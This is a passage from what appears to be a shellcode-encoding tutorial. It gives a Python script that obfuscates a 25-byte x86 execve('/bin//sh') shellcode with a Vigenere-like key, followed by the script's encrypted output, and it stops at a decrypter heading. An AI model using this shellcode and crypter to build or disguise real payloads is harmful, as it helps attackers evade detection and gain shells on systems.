 First step is to code a crypter. For convinience, only a multiple of 4 will be used for key size.

```python
#!/usr/bin/python3

# Python Vigenere Like Encoder 

import sys

shellcode = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")
key = "SECURITY"
encryted = ""
encryted2 = ""

if len(key) % 4 != 0:
   print("Key length must be multiple of 4")
   sys.exit(0)

i = 0
for x in shellcode :
   # Vigenere Like
   y = ord(x) - ord(key[i])
   if y < 0:
      y = (y % 0xFF) + 1

   encryted += '\\x'
   encryted += '%02x' % y

   encryted2 += '0x'
   encryted2 += '%02x,' %y
   if i == 7:
      i = 0
   else:
      i += 1

print("ENCRYPTED SHELLCODE")
print(encryted)
print(encryted2[:-1])
print('Len: %d' % len(shellcode))
```

```bash
$ python3 VIGENEREEncrypter.py 
ENCRYPTED SHELLCODE
\xde\x7b\x0d\x13\xdd\xe6\x1f\x0f\x15\xea\x1f\x14\x1c\x40\x8f\xf7\x36\x9d\x10\x34\x8f\x67\xb7\x74\x2d
0xde,0x7b,0x0d,0x13,0xdd,0xe6,0x1f,0x0f,0x15,0xea,0x1f,0x14,0x1c,0x40,0x8f,0xf7,0x36,0x9d,0x10,0x34,0x8f,0x67,0xb7,0x74,0x2d
Len: 25
```

## Trivial decrypter
